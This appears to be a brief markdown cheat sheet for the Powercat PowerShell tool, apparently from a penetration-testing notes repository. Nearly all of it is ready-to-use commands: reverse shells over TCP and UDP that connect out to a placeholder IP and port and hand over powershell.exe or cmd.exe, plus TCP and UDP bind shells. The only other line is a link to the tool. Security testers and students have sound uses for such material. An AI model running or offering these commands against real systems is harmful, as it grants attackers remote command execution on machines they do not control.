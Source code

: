 # Powercat

## 01 - Reverse shell

### 1.1 - TCP Method

`PS C:\> powercat -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>`

### 1.2 - UDP Method

`PS C:\> powercat -u -c <IP> -p <PORT> -e <powershell.exe | cmd.exe>`

## 02 - Bind shell

### 2.1 - TCP Method

`PS C:\> powercat -l -p <PORT> -e <powershell.exe | cmd.exe>`

### 2.2 - UDP Method

`PS C:\> powercat -u -l -p <PORT> -e <powershell.exe | cmd.exe>`

---
## References

- [Powercat](https://github.com/besimorhino/powercat)